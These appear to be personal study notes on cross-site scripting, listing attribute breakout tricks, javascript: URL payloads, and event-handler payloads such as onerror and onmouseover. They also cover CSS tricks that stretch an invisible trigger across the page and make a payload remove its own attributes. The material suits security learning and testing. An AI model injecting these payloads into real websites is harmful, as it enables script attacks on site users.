 + Break out With
 1. `'` - singe qutoes:  `'(payload)`
 2. `"` - double qutoes: `"(payload)`
 3. Space Characters: `(space, \f, \n, \r, \t)`

+ Examples
 - Basic: `"><script>alert(document.domain)</script>`
 - Basic: `"</textarea><script>alert(document.domain)</script>`


       ============================================================


  **2. URLs**
* Uses: Html Attributes, Html Tags, JS Functions, URL Schemes
* Note that `javascript:alert()` or `"javascript:alert()"` should work regardless of quotes

+ Potential Tag Targets 
 - Link:   <a href="{{input_from_url}}">Link</a>
 - iFrame: <iframe src="{{input_from_url}}"></frame>
 
+ Examples:
 - Basic: `javascript:alert(document.domain)`

+ Sample Results that pull from URL:

 - location = 'javascript:alert()'
 - <iframe src=javascript:alert()></iframe>
 - <a href=javascript:alert()>Link></a>
 
+ `<h1>` Elements is _NOT going to work_ cause it _doesn't host content_ from another webpage


       ============================================================


  **3. Event Handling**
* Uses: CSS, Events, Event Handling, Html Attributes, JS Fucntions, URL Encoding
* See cheat sheet _xss-cheat-sheet.pdf_ for more

+ Sample Events
 - _Onoload_: executes given javascript function when tag loads
  * Body Tag Example: `<body onload=alert(‘Welcome to Hacking Articles’)>`
 - _onerror_
  * `<img src=invalid onerror=alert()>`
 - _Onmouseover_: when a user moves his cursor over a specific text
  * `<a onmouseover=alert(“50% discount”)>surprise</a>`
 - _Etc._
 

+ Examples
 - `'onload=alert'()`  --->  `class ='title 'onload'='alert()'`


+ Use **CSS Styling** to change _how things appear_ on the website
 - Can use `style`                                                           v--- url encoding
 - Example: `'onmouseover=alert() style=position:fixed;top:0;left:0;width:100%25;color:transparent;`
                                                                             ^--- % is \x25
 - Self-Delete `style`: `"onmouseover=this.removeAttribute('onmouseover');this.removeAttribute('Style');`
  * can put this  in between `onmouseover=` and `alert();`
  
